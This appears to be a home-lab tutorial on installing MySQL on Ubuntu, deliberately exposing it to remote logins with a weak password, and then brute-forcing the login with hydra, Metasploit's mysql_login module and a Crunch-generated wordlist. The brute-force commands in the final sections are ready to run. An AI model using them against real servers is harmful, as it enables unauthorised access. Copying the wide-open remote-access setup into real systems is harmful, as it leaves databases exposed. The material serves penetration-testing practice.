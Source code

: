 # Server - Database: `mysql` on `Ubuntu`

[Back](../../index.md)

- [Server - Database: `mysql` on `Ubuntu`](#server---database-mysql-on-ubuntu)
  - [Install MySQL Package](#install-mysql-package)
  - [Configure MySQL](#configure-mysql)
  - [Enable Remote Access](#enable-remote-access)
  - [Brute Force cracking MySQL](#brute-force-cracking-mysql)
  - [WordList](#wordlist)

---

## Install MySQL Package

- Pre-install: update repo

```sh
# Update the System
sudo apt update
sudo apt upgrade -y
```

- Install package

```sh
# Install MySQL Server
apt install mysql-server -y

# verify if the MySQL package is installed
dpkg -l | grep mysql-server
# ii  mysql-server                                  8.0.40-0ubuntu0.24.04.1                  all          MySQL database server (metapackage depending on the latest version)
# ii  mysql-server-8.0                              8.0.40-0ubuntu0.24.04.1                  amd64        MySQL database server binaries and system database setup
# ii  mysql-server-core-8.0                         8.0.40-0ubuntu0.24.04.1                  amd64        MySQL database server binaries

# confirm the package installation
apt list --installed | grep mysql-server
# mysql-server-8.0/noble-updates,noble-security,now 8.0.40-0ubuntu0.24.04.1 amd64 [installed,automatic]
# mysql-server-core-8.0/noble-updates,noble-security,now 8.0.40-0ubuntu0.24.04.1 amd64 [installed,automatic]
# mysql-server/noble-updates,noble-security,now 8.0.40-0ubuntu0.24.04.1 all [installed]

mysql --version
# mysql  Ver 8.0.40-0ubuntu0.24.04.1 for Linux on x86_64 ((Ubuntu))
```

- Start service

```sh
# Check the status of the MySQL service
systemctl start mysql
systemctl enable mysql
systemctl status mysql
# ● mysql.service - MySQL Community Server
#      Loaded: loaded (/usr/lib/systemd/system/mysql.service; enabled; preset: enabled)
#      Active: active (running) since Tue 2024-12-31 22:51:50 EST; 37min ago
#     Process: 1097 ExecStartPre=/usr/share/mysql/mysql-systemd-start pre (code=exited, status=0/SU>
#    Main PID: 1317 (mysqld)
#      Status: "Server is operational"
#       Tasks: 37 (limit: 4558)
#      Memory: 421.8M (peak: 434.8M)
#         CPU: 24.313s
#      CGroup: /system.slice/mysql.service
#              └─1317 /usr/sbin/mysqld

# Dec 31 22:51:46 ubuntuhost systemd[1]: Starting mysql.service - MySQL Community Server...
# Dec 31 22:51:50 ubuntuhost systemd[1]: Started mysql.service - MySQL Community Server.
# lines 1-14/14 (END)
```

---

## Configure MySQL

```sh
#  Secure MySQL Installation
sudo mysql_secure_installation
```

- Login

```sh
mysql -u root -p
```

- Initiate database

```sql
-- Create a new database:
CREATE DATABASE app_db;

-- Create a new user and grant them privileges
-- @'%' part allows access from any IP address
CREATE USER 'app_admin'@'%' IDENTIFIED BY 'Welcome!234';
GRANT ALL PRIVILEGES ON app_db.* TO 'app_admin'@'%';
FLUSH PRIVILEGES;

-- Exit the MySQL shell:
EXIT;
```

---

## Enable Remote Access

- Configure Firewall

```sh
# Allow MySQL through the firewall
ufw allow mysql

ufw status
# Status: active

# To                         Action      From
# --                         ------      ----
# 3306/tcp                   ALLOW       Anywhere
# 22                         ALLOW       Anywhere
# Samba                      ALLOW       Anywhere
# 3306/tcp (v6)              ALLOW       Anywhere (v6)
# 22 (v6)                    ALLOW       Anywhere (v6)
# Samba (v6)                 ALLOW       Anywhere (v6)

# Edit the MySQL configuration to allow remote access
sudo vi /etc/mysql/mysql.conf.d/mysqld.cnf
# replace
# bind-address = 0.0.0.0

sudo systemctl restart mysql
```

---

## Brute Force cracking MySQL

- In kali

```sh
hydra mysql://192.168.1.200 -l root -P /usr/share/nmap/nselib/data/passwords.lst -v

hydra -l app_admin -p 'Welcome!234' 192.168.1.200 mysql
hydra -l root -p 'Welcome!234' 192.168.1.200 mysql
hydra -l app_admin -p 'Welcome!234' mysql://192.168.1.200

hydra 192.168.1.200 mysql -L /home/kali/username_list.txt -P /home/kali/password_list.txt -o /home/kali/credential.txt
```

- Metasploit Framework

```sh
# Open Metasploit:
msfconsole

# Search for MySQL Exploits:
search mysql

# Use a Module for Exploitation
use auxiliary/scanner/mysql/mysql_login

# Set Parameters:
set RHOSTS 192.168.1.200
set USERNAME root
set PASS_FILE /usr/share/nmap/nselib/data/passwords.lst
set THREADS 5

# Run the Exploit:
run
```

---

## WordList

- Using `Crunch`

```sh
sudo apt-get install crunch

crunch 6 10 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_- > username_list.txt
```